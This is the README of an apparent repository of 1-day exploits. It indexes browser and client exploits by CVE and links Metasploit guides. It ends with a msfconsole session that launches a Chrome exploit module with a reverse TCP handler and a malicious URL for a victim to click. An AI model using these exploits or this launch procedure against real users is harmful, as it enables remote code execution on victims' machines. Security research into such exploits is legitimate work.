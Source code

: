# 1-day exploits
1day exploit repo

## Database
CVE Number | Target | Type | OS | Version | Author 
---------- | -------| ---- | -- | ------- | ------ 
[CVE-2019-5825](windows/browser/chromium/941743/README.md) | Chrome | Browser | Windows | 73.0.3683.86 (64bit) | _Hwiwon Lee_
[CVE-2017-????](linux/browser/chromium/716044/README.md) | Chrome | Browser | Linux | 60.0.3080.5 (64bit) | _Hwiwon Lee_
[CVE-2016-1646](windows/browser/chromium/594574/README.md) | Chrome | Browser | Windows | 49.0.2623.87 (64bit) | _Hwiwon Lee_
[CVE-2017-????](windows/browser/chromium/746946/README.md) | Chrome | Browser | Windows | 59.0.3071.109 (64bit) | _Hwiwon Lee_
[CVE-2016-3207](windows/browser/ie/20163207/README.md) | IE | Browser | Windows | 11.0.9600.17420(32bit) | _Hyeonhak Kim_
[CVE-2017-0037](windows/browser/ie/20170037/README.md) | IE | Browser | Windows | 11.0.9600.18537(32bit) | _Hyeonhak Kim_
[CVE-2019-9760](windows/FTP/FTPGetter5.97/README.md) | FTPGetter | FTP Client | Windows | 5.97.0.177(64bit) | _Hyeonhak Kim_
[CVE-2016-????](windows/FTP/FTPShell5.24/README.md) | FTPShell | FTP Client | Windows | 5.24(32bit) | _Hyeonhak Kim_
[CVE-2019-????](linux/browser/chromium/46654/README.md) | Chrome | Browser | Linux | 74.0.3702.0 (64bit) | _Youngjoon Kim_
[CVE-2019-????](linux/browser/chromium/46748/README.md) | Chrome | Browser | Linux | 74.0.3725.0 (64bit) | _Youngjoon Kim_
[CVE-2019-0752](windows/browser/ie/20190752/README.md) | IE | Browser | Windows | 11.379.17763.0 (64bit) | _Youngjoon Kim_
[CVE-2017-5375&CVE-2016-1960](windows/browser/firefox/Firefox%2044.0.2%20-%20ASM.JS%20JIT-Spray%20Remote%20Code%20Execution(CVE-2017-5375%3BCVE-2016-1960)/README.md) | firefox | Browser | Windows | 44.0.2 | _Sungha Park_
[CVE-2017-5375&CVE-2016-2819](windows/browser/firefox/Firefox%2046.0.1%20-%20ASM.JS%20JIT-Spray%20Remote%20Code%20Execution(CVE-2017-5375%3BCVE-2016-2819)/README.md) | firefox | Browser | Windows | 46.0.1 | _Sungha Park_
[CVE-2017-5375&CVE-2016-9079](windows/browser/firefox/Firefox%2050.0.1%20-%20ASM.JS%20JIT-Spray%20Remote%20Code%20Execution(CVE-2017-5375%3BCVE-2016-9079)/README.md) | firefox | Browser | Windows | 50.0.1 | _Sungha Park_
[CVE-2017-5415](windows/browser/firefox/Mozilla%20Firefox%20-%20Address%20Bar%20Spoofing/README.md) | firefox | Browser | Windows | 50.0.1 | _Sungha Park_
[CVE-2019-0541](windows/browser/ie/Microsoft%20Windows%20MSHTML%20Engine%20-%20Edit%20Remote%20Code%20Execution(CVE-2019-0541)/README.md) | ie | Browser | Windows | 8.0.6001.18702| _Sungha Park_
[CVE-2019-9766](windows/windows/player/free_mp3_cd_ripper/README.md) | Free MP3 CD Ripper | player | Windows | 2.6 | _Sungha Park_
[CVE-2019-???(EDB-46279)](windows/player/HTML5%20Video%20Player/README.md) | HTML5 Video Player | player | Windows | 1.2.5 | _Sungha Park_
[CVE-2018-4314](macos/browser/safari/cve-2018-4314/README.md) | Safari | Browser | macOS | 11.1.2 (64bit) | _Hwiwon Lee_
[CVE-2017-15399](windows/browser/chromium/201715399/README.md) | Chrome | Browser | Windows | 62.0.3202.89  | _Youngjoon Kim_
[CVE-2018-4878](windows/flash/20184878/README.md) | Adobe Flash Player | Flash Player | Windows | 28.0.0.137 | _Younggi Park_
[CVE-2018-15877]{linux/wordpress/README.md) | wordpress | Application | linux | 20161228 and prior | _Sungha Park_

## Metasploit
[Official Repo](https://github.com/rapid7/metasploit-framework)  
[How to write a browser exploit using BrowserExploitServer](https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-browser-exploit-using-BrowserExploitServer)  
[How to write a browser exploit using HttpServer](https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-browser-exploit-using-HttpServer)  

## vulncode-db 
Useful vulnerable code db site [demo](https://www.vulncode-db.com/) and [open source](https://github.com/google/vulncode-db)

## Environment Setup
### Chromium
[Downloading old builds of Chrome / Chromium](https://www.chromium.org/getting-involved/download-chromium)
### Internet Explorer
[Downloading old version update of IE](https://www.catalog.update.microsoft.com)

## How to use
### Attacker
```
$ msfconsole
...
[*] Starting persistent handler(s)...
msf5 > use exploit/windows/browser/chrome_v8_oob_access_594574 
msf5 exploit(windows/browser/chrome_v8_oob_access_594574) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Using URL: http://0.0.0.0:8080/B3mDU4Cmr
[*] Local IP: http://127.0.0.1:8080/B3mDU4Cmr
[*] Server started.
```

### Victim
Click the url link :D
